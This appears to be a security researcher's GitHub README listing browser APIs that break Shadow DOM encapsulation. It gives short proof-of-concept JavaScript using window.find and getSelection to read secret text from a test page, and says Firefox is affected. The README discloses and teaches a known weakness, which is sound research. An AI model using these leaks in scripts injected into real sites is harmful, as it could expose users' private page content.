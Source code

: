# Shadow Breakers
This document lists JavaScript APIs to which encapsulation by the Shadow DOM does not apply. It does not include APIs that allow access by explicitly passing a ShadowRoot, such as `getHTML()`. The list includes only cases where at least the text content placed in the Shadow DOM can be leaked.

The purpose of this document is to show that Shadow DOM encapsulation is not perfect, especially that it should not be used as a security boundary. (Shadow DOM is not a security feature.) Please also refer to my slides from Shibuya.XSS techtalk #13: (English:[Shadow DOM & Security - Exploring the boundary between light and shadow](https://speakerdeck.com/masatokinugawa/shadow-dom-and-security-exploring-the-boundary-between-light-and-shadow) / 日本語: [Shadow DOMとセキュリティ - 光と影の境界を探る](https://speakerdeck.com/masatokinugawa/shibuya-dot-xss-techtalk-number-13)).

The following PoCs show that encapsulation is broken by the fact that JavaScript executed outside the Shadow DOM can access the secret text (`deadbeef`) placed inside. You can test the leaks by executing the JavaScript code listed below from the browser's developer console on [this test page](https://masatokinugawa.github.io/shadow_breakers/testpage.html).

If you find an interesting way to leak the text, let me know! :)

## Selection.prototype.anchorNode
```js
window.find('This is a secret:'); // for selecting string placed in Shadow area without user interaction
node = getSelection().anchorNode;
root = node.getRootNode();
if(root instanceof ShadowRoot){
  alert(root.querySelector('#secret').textContent);
}
```
### Impact
DOM node-level access

### Affected browsers
Firefox

### Credits
[Ankur Sundara](https://blog.ankursundara.com/shadow-dom/)

## Selection.prototype.focusNode
```js
window.find('This is a secret:'); // for selecting string placed in Shadow area without user interaction
node = getSelection().focusNode;
root = node.getRootNode();
if(root instanceof ShadowRoot){
  alert(root.querySelector('#secret').textContent);
}
```
### Impact
DOM node-level access
